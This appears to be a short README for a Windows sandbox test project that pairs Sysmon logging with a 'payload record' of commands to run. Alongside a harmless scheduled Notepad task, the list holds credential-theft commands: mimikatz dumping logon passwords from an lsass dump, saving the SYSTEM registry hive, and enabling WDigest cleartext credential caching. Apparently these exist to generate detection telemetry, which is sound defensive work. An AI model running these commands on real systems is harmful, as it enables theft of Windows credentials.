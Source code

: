 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
##### SCHTASKS (powershell only)
```
$time = [DateTime]::Now.AddMinutes(1)

$hourMinute = $time.ToString("HH:mm")

SCHTASKS /Create /SC ONCE /TN "Open Notepad" /TR "notepad.exe" /ST $hourMinute
```



mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles .  /H  /Y

reg save HKLM\SYSTEM c:\system.save

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
